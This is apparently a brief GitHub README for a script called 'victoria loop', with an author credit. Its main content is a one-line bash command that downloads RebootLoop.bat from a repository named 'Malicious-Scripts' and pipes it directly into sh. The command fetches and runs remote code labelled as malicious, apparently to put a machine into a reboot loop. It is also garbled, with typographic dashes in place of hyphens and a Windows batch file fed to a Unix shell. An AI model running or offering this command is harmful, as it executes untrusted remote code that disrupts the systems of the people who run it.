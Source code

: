 
# victoria loop

```bash
  wget https://github.com/HackEasy/Malicious-Scripts/blob/master/RebootLoop.bat -O – | sh —
```
## Authors

- [AFRAM](https://www.github.com/iamafram)

